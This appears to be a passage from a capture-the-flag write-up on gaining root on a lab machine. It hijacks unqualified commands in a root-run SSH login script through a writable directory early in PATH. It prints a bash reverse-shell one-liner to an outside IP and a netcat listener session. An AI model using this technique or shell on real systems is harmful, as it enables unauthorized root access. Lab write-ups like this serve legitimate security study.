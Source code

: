 The script was executed when an ssh session was opened. I tried to modify it, but I was not allowed to do it. 

The script was calling `date` and `uname` without providing the full path. Since I was able to write to `/usr/local/sbin` and it was at the beginning of the PATH variable. I could write a script that would be executed instead of those commands.

I tested it with a simple call to `touch`.

```bash
svc_acc@late:~$ cat /usr/local/sbin/date
#!/bin/bash

touch /tmp/date
svc_acc@late:~$ chmod +x /usr/local/sbin/date
```

I opened another ssh connection, the `/tmp/date` file appeared, and it was owned by root.

```bash
svc_acc@late:~$ ls -ltr /tmp/
total 16
drwx------ 3 root root 4096 May 29 16:34 systemd-private-5ce7c05c39994fea968a4b84ceeba228-systemd-timesyncd.service-GeuFul
drwx------ 3 root root 4096 May 29 16:34 systemd-private-5ce7c05c39994fea968a4b84ceeba228-systemd-resolved.service-mFKWp7
drwx------ 3 root root 4096 May 29 16:34 systemd-private-5ce7c05c39994fea968a4b84ceeba228-ModemManager.service-i46q88
drwx------ 2 root root 4096 May 29 16:35 vmware-root_757-4281843244
-rw-rw-r-- 1 root root    0 May 29 17:53 date
```

I modified the `date` script to open a reverse shell to my machine. 


```bash
svc_acc@late:~$ cat /usr/local/sbin/date
#!/bin/bash

echo 'bash  -i >& /dev/tcp/10.10.14.122/4444 0>&1 ' | bash
```

I launched a netcat listener. It got a hit as soon as I reconnected to ssh.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.107.177 52396
bash: cannot set terminal process group (3334): Inappropriate ioctl for device
bash: no job control in this shell

root@late:/# whoami
whoami
root

root@late:/# cat /root/root.txt
cat /root/root.txt
REDACTED
root@late:/# 
```
